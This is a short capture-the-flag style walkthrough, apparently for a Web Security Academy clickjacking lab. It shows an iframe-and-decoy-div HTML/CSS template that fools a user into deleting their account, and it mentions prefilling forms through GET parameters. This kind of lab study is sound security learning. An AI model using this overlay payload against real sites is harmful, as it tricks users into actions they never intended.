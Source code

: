 ## Clickjacking with CSRF token Protection


### So lets start With Click on the Access labs
To solve the lab, craft some HTML that frames the account page and fools the user into deleting their account. The lab is solved when the account is deleted.



### Firstly Click on My account Section

In my account section You can log in to your own account using the following credentials: wiener:peter


### IN Lab Click on Go to Exploit the server
We assume that you a basic knowledge of HTML head and CSS...


```markup
<style>
    iframe {
        position:relative;
        width:$width_value;
        height: $height_value;
        opacity: $opacity;
        z-index: 2;
    }
    div {
        position:absolute;
        top:$top_value;
        left:$side_value;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="YOUR-LAB-ID.web-security-academy.net/my-account"></iframe>
```

Soo we further procced


**In Css several changes like giving height and width and Change opacity to view the content to fool our victim**




 **fill the value of fields of a form using GET parameters when loading a page**. An attacker may abuse this behaviour to fill a form with arbitrary data and send the clickjacking payload so the user press the button Submit.

